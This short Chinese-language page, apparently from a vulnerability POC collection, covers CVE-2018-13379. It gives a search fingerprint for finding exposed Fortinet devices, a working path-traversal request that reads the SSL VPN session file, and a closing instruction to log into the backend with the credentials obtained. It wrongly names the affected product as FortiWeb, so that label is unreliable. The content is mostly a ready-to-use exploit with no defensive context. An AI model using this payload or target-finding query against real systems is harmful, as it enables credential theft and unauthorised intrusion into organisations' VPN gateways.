

# Fortinet FortiWeb sslvpn_websession 路径遍历漏洞 CVE-2018-13379

## 漏洞描述

Fortinet FortiWeb路径遍历漏洞，攻击者通过漏洞可以获取缓存信息，登录服务器

## 漏洞影响

<a-checkbox checked>Fortinet FortiWeb </a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="FortiToken clock drift detected"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```php
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```



获取的账号密码即可登录后台